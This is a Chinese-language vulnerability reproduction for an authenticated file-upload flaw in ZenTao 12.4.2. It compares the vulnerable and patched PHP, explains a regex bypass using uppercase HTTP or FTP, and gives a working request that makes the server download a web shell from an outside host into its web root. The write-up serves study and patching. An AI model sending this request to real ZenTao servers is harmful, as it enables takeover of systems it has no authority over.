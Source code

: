 # 禅道 12.4.2 后台任意文件上传漏洞 CNVD-C-2020-121325

## 漏洞描述

百度云安全团队监测到禅道官方发布了文件上传漏洞的风险通告，该漏洞编号为CNVD-C-2020-121325，漏洞影响禅道<=12.4.2版本。登陆管理后台的恶意攻击者可以通过fopen/fread/fwrite方法读取或上传任意文件，成功利用此漏洞可以读取目标系统敏感文件或获得系统管理权限。我们对漏洞进行了复现和分析，由于需要登录后台才可以利用，实际风险相对较低，建议受影响的禅道用户尽快升级到最新版。

## 影响版本

<a-checkbox checked>禅道 <= 12.4.2版本</a-checkbox></br>

## 环境搭建

![img](../../../.vuepress/public/img/zentao-1-20220313232509623.png)



调用接口查询版本信息



```plain
  http://xxx.xxx.xxx.xxx/www/index.php?mode=getconfig
```



![img](../../../.vuepress/public/img/zentao-14.png)



## 漏洞复现

- ✅漏洞触发需要后台权限



根据漏洞描述查看修改后的代码片段



![img](../../../.vuepress/public/img/zentao-2.png)



**修改前**



```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(preg_match('/^https?\:\/\//', $decodeLink)) return false;

    return parent::downloadZipPackage($version, $link);
}
```



**修改后**



```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(!preg_match('/^https?\:\/\//', $decodeLink)) return false;

    $file      = basename($link);
    $extension = substr($file, strrpos($file, '.') + 1);
    if(strpos(",{$this->config->file->allowed},", ",{$extension},") === false) return false;

    return parent::downloadZipPackage($version, $link);
}
```



这里传入的参数为版本和link地址，然后base64解码，正则判断是否为**http**或**https**协议，这里的正则过滤并不完整，所以可以绕过用于下载恶意文件



![img](../../../.vuepress/public/img/zentao-4.png)



可以大写**http**或请求**FTP**来绕过正则



![img](../../../.vuepress/public/img/zentao-6.png)



![img](../../../.vuepress/public/img/zentao-5.png)



跟进一下**parent::downloadZipPackage**这个方法，跟着来到**zentao\module\client\model.php**文件中



![img](../../../.vuepress/public/img/zentao-3.png)



```php
public function downloadZipPackage($version, $link)
    {
        ignore_user_abort(true);
        set_time_limit(0);
        if(empty($version) || empty($link)) return false;
        $dir  = "data/client/" . $version . '/';
        $link = helper::safe64Decode($link);
        $file = basename($link);
        if(!is_dir($this->app->wwwRoot . $dir))
        {
            mkdir($this->app->wwwRoot . $dir, 0755, true);
        }
        if(!is_dir($this->app->wwwRoot . $dir)) return false;
        if(file_exists($this->app->wwwRoot . $dir . $file))
        {
            return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
        }
        ob_clean();
        ob_end_flush();

        $local  = fopen($this->app->wwwRoot . $dir . $file, 'w');
        $remote = fopen($link, 'rb');
        if($remote === false) return false;
        while(!feof($remote))
        {
            $buffer = fread($remote, 4096);
            fwrite($local, $buffer);
        }
        fclose($local);
        fclose($remote);
        return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
    }
```



可以简单看到这里获取link传入的文件名，通过**fopen**打开该文件，写入禅道目录**www/data/client/version**中



查看一下有没有调用这个方法的地方



![img](../../../.vuepress/public/img/zentao-7.png)



找到了**download**方法调用了这个漏洞点，所以我们有两种下载恶意文件的方法



```plain
http://xxx.xxx.xxx.xxx/www/client-download-[$version参数]-[base64加密后的恶意文件地址].html
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=[$version参数]&link=[base64加密后的恶意文件地址]
```



首先先上传一个恶意文件，可以是FTP也可以是HTTP



例如我上传的文件URL为[**http://peiqi.tech/SHELL.php**](http://peiqi.tech/SHELL.php)



```plain
http://peiqi.tech/SHELL.php
|
base64加密  HTTP://peiqi.tech/SHELL.php
|
SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```



请求地址则为



```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```



![img](../../../.vuepress/public/img/zentao-8.png)



下载的目录地址为**zentaopms\www\data\client\1**



[!NOTE]

 

目录为version名称



![img](../../../.vuepress/public/img/zentao-9.png)



成功上传webshell



![img](../../../.vuepress/public/img/zentao-10.png)



## 